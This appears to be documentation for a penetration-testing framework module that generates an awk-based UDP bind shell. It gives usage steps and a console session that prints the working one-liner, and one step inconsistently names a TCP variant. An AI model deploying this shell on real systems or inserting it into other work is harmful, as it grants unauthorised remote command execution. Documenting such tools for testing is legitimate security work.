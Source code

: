 ## Description

Module generates payload that creates interactive udp bind shell by using awk. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/awk_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates awk udp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/awk_bind_udp
rsf (Awk Bind UDP) > set rport 4321
[+] rport => 4321
rsf (Awk Bind UDP) > run
[*] Running module...
[*] Generating payload
awk 'BEGIN{s="/inet/udp/4321/0/0";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
